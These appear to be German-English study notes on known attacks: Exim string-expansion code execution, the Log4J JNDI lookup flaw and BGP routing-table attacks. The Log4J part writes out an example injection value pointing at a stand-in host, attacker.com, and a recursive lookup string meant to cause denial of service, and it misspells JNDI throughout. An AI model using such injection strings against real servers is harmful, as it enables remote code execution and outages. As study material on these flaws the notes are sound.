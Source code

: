 ## Exim - RCE (Remote Code Execution)
- Aufgrund von (not sanitized) string expansion kann shellcode injected und ausgeführt werden
- Sendet den echo von dem shell script an requester zurück
- Mittlerweile nur noch lokal mögl (mit sonder config remote)
- Problem:
  - Exim läuft oft als root (mächtiger exploit if successfull)

## Log4J - Internet died
- Log4J = Java logging lib
- JDNI = Java Naming und Directory Interface
  - Verfahren um auf remote resource zu accessen (via RMI, LDAP, HTTP/S, File System etc..)
- Example (logging of userAgent):
  - `log.info("UserAgent:{}", userAgent)`
  - logged den userAgent
  - **`ABER`** was wenn `userAgent = "jdni:ldap://attacker.com/a"` ist ?
    - URI gibt Java Class zurück -> `RCI (Remote Code Injection) / RCE (Remote Code Exectution)`
  - Config can fix (log4j.formatMsgNoLookups = true)
    - **`ABER`** JDNI kann geDoS'd werden (ohne lookups) mit `${${::-$${::-j}}}` (endlos recursion in JDNI lookup)
    - `-> DoS`

## BGP Angreifen
- BGP = Border Gateway Protocl (benutzt um automatisch Routingentscheidungen zu treffen)
- Wird benutzt um die Kommunikation von verschiedenen ISP-Netzen zu automatisieren
- GOALS (BGP): Ausfallsicherheit & so schnell und günstig routen 
- Routing-Tabellen angreifen 
  - -> `DoS` & `Ausspähen und Manipulieren von Paketen`